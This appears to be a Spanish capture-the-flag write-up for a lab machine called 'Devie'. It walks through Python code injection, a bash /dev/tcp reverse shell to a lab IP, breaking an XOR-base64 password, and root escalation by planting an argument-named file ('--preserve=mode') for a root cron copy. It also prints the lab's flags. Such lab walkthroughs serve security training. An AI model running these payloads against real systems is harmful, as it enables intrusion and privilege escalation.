 


- Lanzamos la petición de la máquina remota
```
__import__('os').system('ping -c3 10.10.218.246')#
```


- En la máquina de ataque, esuchamos el ping que viene del remoto
```
tcpdump -i ens5 -v icmp and 'icmp[icmptype]=icmp-echo'
```

- Podemos intentar lanzar un remote shell

```
__import__('os').system("bash -c 'bash i >& /dev/tcp/10.10.218.246/1433 0>&1'")#

__import__('os').system("bash -c 'bash+-i+>%26+/dev/tcp/10.10.218.246/1433+0>%261'")#

```

- ya que estamos dentro vemos los permisos de sudo
```bash
/home/bruce$ sudo -l
Matching Defaults entries for bruce on devie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bruce may run the following commands on devie:
    (gordon) NOPASSWD: /usr/bin/python3 /opt/encrypt.py
```
- ejecutamos el programa
```
/home/bruce$ sudo -u gordon /usr/bin/python3 /opt/encrypt.py
Enter a password to encrypt: esteesungranpassword
FgYEABcAEA0VFxUFFRgLHAUXHRY=
```

- idemos una forma de revertir el cifrado y obtener la llave
```python
import base64

password="esteesungranpassword"

base64_string = "FgYEABcAEA0VFxUFFRgLHAUXHRY="
base64_bytes  = base64_string.encode("ascii")

sample_string_bytes = base64.b64decode(base64_bytes)

key = sample_string_bytes.decode("ascii")

xored = ""

for i in range(0, len(password)):
        xored += chr(ord(password[i]) ^ ord(key[ i%len(key) ]))

print(xored)
```

- sacamos la llave
```
/home/bruce$ python3 exp.py
supersecretkeyxorxor
```

- revisamos la nota 
```bash
/home/bruce$ cat note
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

- desencriptamos los que nos dan
```
sudo -u gordon /usr/bin/python3 /opt/encrypt.py
Enter a password to encrypt: NEUEDTIeN1MRDg5K
PTAlIDYnLAY8VDk5IR5NJA==

G0th@mR0ckz!
```

- nos pasamos a gordon
```bash
ssword:
gordon@devie:/home/bruce$
gordon@devie:/home/bruce$ ls
checklist  exp.py  flag1.txt  hola  note  test
gordon@devie:/home/bruce$ cd /home/gordon/
gordon@devie:~$ ls
backups  flag2.txt  reports
gordon@devie:~$ cat flag2.txt
THM{X0R_XoR_XOr_xOr}
gordon@devie:~$
```

- revisar los archivos de gordon y encontramos `backup`
```bash
gordon@devie:~$ find / -user gordon -type f 2>/dev/null | grep -v 'proc\|sys'
/tmp/pspy64
/home/gordon/.profile
/home/gordon/.viminfo
/home/gordon/.bash_logout
/home/gordon/.cache/motd.legal-displayed
/home/gordon/.bashrc

gordon@devie:~$ find / -group gordon -type f 2>/dev/null | grep -v 'proc\|sys'
/opt/encrypt.py
/tmp/pspy64
/usr/bin/backup
/home/gordon/.profile
/home/gordon/.viminfo
/home/gordon/flag2.txt
/home/gordon/reports/report2
/home/gordon/reports/report1
/home/gordon/reports/report3
/home/gordon/.bash_logout
/home/gordon/.cache/motd.legal-displayed
/home/gordon/.bashrc
gordon@devie:~$
```

- la otra forma con pspy64

```
gordon@devie:/tmp$ ./pspy64

2023/04/03 19:56:18 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity
2023/04/03 19:57:01 CMD: UID=0     PID=2649   | /usr/sbin/CRON -f
2023/04/03 19:57:01 CMD: UID=0     PID=2651   | /usr/bin/bash /usr/bin/backup
2023/04/03 19:57:01 CMD: UID=0     PID=2650   | /bin/sh -c /usr/bin/bash /usr/bin/backup
```

- miramos en el script de backup
```bash
gordon@devie:/tmp$ cat /usr/bin/backup
#!/bin/bash

cd /home/gordon/reports/

cp * /home/gordon/backups/
```

- abusaremos del preservemode para que cuando se copie el bash quede con permisos de root
```bash
gordon@devie:~/reports$ cp /usr/bin/bash .
gordon@devie:~/reports$ chmod u+s bash
gordon@devie:~/reports$ echo "" > "--preserve=mode"
gordon@devie:~/reports$ ls -l
total 1172
-rw-rw-r-- 1 gordon gordon       1 Apr  3 20:04 '--preserve=mode'
-rwsr-xr-x 1 gordon gordon 1183448 Apr  3 20:03  bash
-rw-r--r-- 1    640 gordon      57 Feb 19 23:31  report1
-rw-r--r-- 1    640 gordon      72 Feb 19 23:32  report2
-rw-r--r-- 1    640 gordon     100 Feb 19 23:33  report3
gordon@devie:~/reports$
```

- hay que esperar que el proceso de respaldo funcione y luego ir
```bash
gordon@devie:~/backups$ ./bash -p
bash-5.0# cd /root/
bash-5.0# ls
root.txt  snap
bash-5.0# cat root.txt
THM{J0k3r$_Ar3_W1ld}
bash-5.0#

```



## Tools
- https://pwncat.org/
- 